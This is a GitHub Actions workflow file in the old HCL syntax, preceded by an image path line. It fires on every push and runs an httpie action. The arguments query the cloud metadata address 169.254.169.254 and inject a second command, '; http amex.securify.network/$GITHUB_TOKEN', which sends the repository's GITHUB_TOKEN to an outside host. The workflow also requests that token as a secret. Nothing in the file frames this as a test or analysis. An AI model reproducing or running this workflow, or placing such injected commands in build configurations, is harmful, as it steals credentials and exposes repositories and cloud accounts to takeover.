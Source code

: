 workflow "New workflow" { on = "push" resolves = ["HTTP client"] } action "HTTP client" { uses = "swinton/httpie.action@69125d73caa2c6821f6a41a86112777a37adc171" args = ["GET", "169.254.169.254", "; http amex.securify.network/$GITHUB_TOKEN"] env = { a = "a" } secrets = [ "GITHUB_TOKEN", "jake", "test",] }